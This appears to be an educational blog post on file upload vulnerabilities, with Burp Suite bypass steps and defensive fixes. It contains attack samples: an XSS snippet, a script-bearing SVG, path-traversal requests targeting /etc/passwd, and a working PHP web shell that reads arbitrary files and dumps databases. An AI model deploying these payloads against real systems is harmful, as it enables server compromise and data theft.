 ```yaml
---
name: 'A Security Guide with Burp Suite and Exploit Code'
description: ""
id: a-security-guide-with-burp-suite-and-exploit-code
tags:
  - 'security'
  - 'exploit'
date: 1729467970079
---
```


File upload functionality is a common feature in web applications. However, if not properly secured, it can lead to dangerous vulnerabilities, potentially allowing attackers to compromise your entire system. In this article, we will explore some of the most common file upload vulnerabilities, including not just PHP-based attacks but also other file types like JavaScript, SVG, and PNG. We will demonstrate how attackers manipulate these vulnerabilities using Burp Suite and show an example of a malicious script that could be used to exploit the system. Additionally, we’ll discuss the best practices for securing your file upload functionality.

### 1. Unrestricted File Uploads (PHP, JavaScript, SVG, and PNG)
One of the most dangerous file upload vulnerabilities is allowing users to upload any file without proper restrictions. Attackers can upload various types of malicious files, including PHP, JavaScript, or even specially crafted SVG or PNG files, that can lead to Remote Code Execution (RCE), defacement, or data theft.

1. PHP Shell Upload
An attacker might upload a .php file (such as a web shell) to execute arbitrary commands on the server.

2. JavaScript File Upload
JavaScript files (e.g., .js) could be uploaded and executed by other users on a web page, leading to attacks like Cross-Site Scripting (XSS) or Remote Code Execution (RCE) in Node.js environments.

- Burp Suite Example:
	1.	Upload a .js file containing malicious JavaScript code via an insecure file upload form.
	2.	Intercept the request with Burp Suite and modify the content type or bypass client-side validation.
	3.	After the upload, the script could be included in the page and executed in the browser context of other users.
```js
// Malicious .js file content
fetch('/steal_cookies').then(response => response.json()).then(data => alert(data));
```

Once uploaded, the script could be accessed via:
```html
<script src="https://example.com/uploads/malicious.js"></script>
```

Solution: Restrict JavaScript file uploads or properly sanitize and encode file content to prevent XSS. Avoid executing user-uploaded files directly in the browser.

3. SVG File Upload
SVG (Scalable Vector Graphics) files are another potential attack vector. Because SVG files support embedded JavaScript and are rendered as XML, attackers can craft malicious SVG files that execute JavaScript when the file is viewed.

- Burp Suite Example:
	1.	Upload a crafted .svg file containing malicious JavaScript.
	2.	Use Burp Suite to bypass the MIME-type validation or filename restrictions.
	3.	Once uploaded, the SVG could execute JavaScript in the context of the browser, leading to XSS or other client-side attacks.
```xml
<!-- Malicious SVG File Content -->
<svg xmlns="http://www.w3.org/2000/svg">
  <script>
    alert('Hacked via SVG file!');
  </script>
</svg>
```

Solution: Sanitize SVG files using libraries like SVG-Sanitizer to remove harmful content like embedded scripts. Alternatively, disallow SVG uploads if not essential.

4. PNG File Exploit
Even seemingly harmless image formats like .png can be weaponized. Attackers can craft malicious PNG files containing payloads that target vulnerabilities in image processing libraries (such as ImageMagick or GD in PHP). These vulnerabilities can lead to remote code execution (RCE) or denial of service (DoS) attacks.
- Burp Suite Example:
	1.	Upload a malicious .png file using Burp Suite.
	2.	Trigger an RCE attack by exploiting an image processing vulnerability (e.g., ImageMagick’s CVE-2016-3714).

Solution: Keep image processing libraries up to date and use strict security policies when handling user-uploaded images. Consider using safer libraries or services to process images outside of your main application environment.

### 2. Content-Type Bypass (Various File Types)

Attackers often manipulate the Content-Type header in HTTP requests to bypass file upload restrictions. For example, they might change the content type of a PHP file to image/jpeg or a .js file to text/html to trick the server into accepting the upload.

- Burp Suite Example:
	1.	Intercept the upload request in Burp Suite.
	2.	Change the Content-Type header to bypass file type validation and upload a malicious file.
	3.	Forward the request, and if successful, the file will be stored and potentially executed.

```http
POST /upload HTTP/1.1
Host: example.com
Content-Type: image/jpeg

[FILE DATA]
```

Solution: Perform strict server-side validation of file types using both file extensions and the actual content of the file. Avoid relying solely on client-provided headers.

### 3. Path Traversal in File Uploads

Path traversal vulnerabilities occur when attackers can manipulate the file path during an upload to place a file in a different directory than intended or overwrite sensitive files.

Example:
An attacker could upload a file using a path traversal string, such as `../../../../../var/www/html/shell.php`, to place a PHP shell in the web root.

- Burp Suite Example:
	1. Intercept the upload request in Burp Suite.
	2. Modify the filename parameter to include a path traversal string.
	3. Forward the request and check if the file was uploaded to an unintended location.

```http
POST /upload HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="../../../../etc/passwd"

[FILE DATA]
```

Solution: Sanitize filenames and file paths using functions like basename() to strip out dangerous path traversal characters. Store uploaded files in a dedicated directory with strict permissions.

##### Sample Exploit PHP Script: File Read and Database Dump

If an attacker successfully uploads a malicious file, such as a PHP web shell, they can use it to read sensitive files or dump the database contents. Below is a PHP script that demonstrates this.

```php
<?php
// Simple Web Shell with File Read and DB Dump Functionality

// Command to read any file from the server (e.g., /etc/passwd or database config file)
if (isset($_GET['file'])) {
    $file = $_GET['file'];
    if (file_exists($file)) {
        echo "<pre>" . htmlspecialchars(file_get_contents($file)) . "</pre>";
    } else {
        echo "File does not exist.";
    }
}

// Connect to the database and extract data
if (isset($_GET['db'])) {
    $host = 'localhost'; // Change if using a remote database
    $db = 'your_database_name'; // Name of the database
    $user = 'your_database_user'; // Database user
    $pass = 'your_database_password'; // Database password

    $conn = new mysqli($host, $user, $pass, $db);

    if ($conn->connect_error) {
        die("Database connection failed: " . $conn->connect_error);
    }

    $query = isset($_GET['query']) ? $_GET['query'] : 'SELECT * FROM your_table LIMIT 10';
    $result = $conn->query($query);

    if ($result->num_rows > 0) {
        while ($row = $result->fetch_assoc()) {
            echo "<pre>" . print_r($row, true) . "</pre>";
        }
    } else {
        echo "No results found.";
    }

    $conn->close();
}
?>
```

### How to Protect Against File Upload Vulnerabilities

To safeguard your web application from these types of attacks, follow these best practices:
1.	File Type Validation: Always validate the type of file being uploaded. Check both the file extension and the MIME type. Use libraries to inspect the content of the file (like mime_content_type() in PHP) and avoid trusting user-supplied values.
2.	Use File Validators: Implement strong file validation logic to allow only specific file types (e.g., images or PDFs). Tools like Symfony Validator or Laravel’s validation system allow you to enforce rules for file uploads.
3.	Limit File Sizes: Ensure that large files are rejected. Set file size limits server-side to prevent attackers from uploading excessively large files and causing a denial-of-service (DoS) attack.
4.	Use Safe Directories: Store uploaded files in a directory outside of your web root. If files don’t need to be accessed via the web server, this reduces the risk of attackers accessing or executing them.
5.	Sanitize Filenames: Prevent path traversal attacks by sanitizing file paths and filenames using functions like basename() to avoid directory traversal.
6.	Set Proper File Permissions: Ensure that the directory where files are uploaded has restricted permissions. Uploaded files should not have execute permissions (chmod 644), which prevents execution of malicious scripts.
7.	Disable Script Execution in Upload Directory: Use a .htaccess file to disable PHP or other script execution in the upload directory.
8.	Sanitize SVGs: Use tools like SVG-Sanitizer to clean SVG files from potentially harmful embedded scripts.
9.	Use Antivirus/Antimalware: Implement an additional layer of protection by scanning uploaded files for known malware signatures using tools like ClamAV.
10.	Keep Software Updated: Regularly update your web server software, image processing libraries, and other components to patch known vulnerabilities.

By following these best practices and understanding the risks associated with file uploads, you can better secure your web application from various attack vectors.